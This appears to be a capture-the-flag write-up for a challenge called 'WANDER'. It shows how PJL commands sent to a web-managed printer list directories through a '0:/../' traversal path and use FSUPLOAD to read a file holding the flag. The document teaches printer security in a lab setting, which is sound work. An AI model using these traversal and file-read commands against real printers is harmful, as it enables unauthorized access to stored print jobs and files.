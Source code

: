 
# WANDER
## CHALLENGE DESCRIPTION
My uncle isn't allowing me to print documents. He's off to vacation and I need a PIN to unlock this printer. All I found is a web server where this printer is managed from. Can you help me with this situation ?

### STEPS
1. Paste the IP Address in the web browser and you will directed to the Wander page. 
### ![ab](https://github.com/user-attachments/assets/e656bfb5-ce84-471b-b9f2-326c7a790a33)

2. Printer Job Language (PJL) was developed by Hewlett-Packard to provide a method for switching printer languages at the job level, and for status readback between the printer and the host computer.
  >  @PJL FSDIRLIST NAME="0:" ENTRY=1  - this command is used to list the content of the current directory 
### ![ab](https://github.com/user-attachments/assets/64dffb2f-1c38-4eed-83e3-4b619c557389)

3. To view the upper directory, use this command
  > @PJL FSDIRLIST NAME="0:/../" ENTRY=1

### ![ab](https://github.com/user-attachments/assets/47218e0c-5ac9-4561-a101-1ebd4ba39048)

4. Inside the default directory there is a file called readyjob, to see the content use this command
    > @PJL FSDIRLIST NAME="0:/../home/default" ENTRY=1

### ![ab](https://github.com/user-attachments/assets/9c7cc37e-fe60-42e6-8760-8fe647b30b74)

5. To get the flag use this command
  > @PJL FSUPLOAD NAME="0:/../home/default/readyjob"

### ![ab](https://github.com/user-attachments/assets/859a456c-4e0b-417d-b0f7-e704f841b251)


